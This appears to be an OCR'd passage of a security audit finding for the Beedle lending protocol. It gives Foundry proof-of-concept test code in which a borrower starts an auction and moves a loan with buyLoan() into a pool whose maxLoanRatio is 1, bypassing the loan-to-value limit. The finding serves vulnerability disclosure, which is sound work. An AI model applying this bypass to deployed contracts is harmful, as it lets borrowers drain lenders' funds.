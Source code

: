 ```
            poolId: poolId,
            debt: 100 * 10 ** 18,
            collateral: 100 * 10 ** 18
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;
        lender.borrow(borrows);

        assertEq(collateralToken.balanceOf(address(lender)), 100 * 10 ** 18);
        (, , , , poolBalance, , , , ) = lender.pools(poolId);
        assertEq(poolBalance, 900 * 10 ** 18);
}
```
3. Paste this code into `Lender.t.sol`: https://github.com/Cyfrin/2023-07-beedle/blob/main/test/Lender.t.sol.
Right here the `borrower` starts the auction for his loan and call `buyLoan()` with the pool of `lender1`, which only has the `maxLoanRatio` value of 1. The test goes through successfully, meaning the loan is bought to the new pool and the `borrower` can now enjoy his high LTV loan being managed by the new pool (`lender1`)
```
function test_bypassMaxLoanRatio() public {
        test_borrowPoc();
        // accrue interest
        vm.warp(block.timestamp + 1 days);
        // kick off auction
        vm.startPrank(borrower);

        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        lender.startAuction(loanIds);

        vm.startPrank(lender1);
        Pool memory p = Pool({
            lender: lender1,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 1 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(p);

        // warp to middle of auction
        vm.warp(block.timestamp + 12 hours);

        vm.startPrank(borrower);

        lender.buyLoan(0, poolId);
}
```
Use `forge test --mt test_bypassMaxLoanRatio` to run this test case.
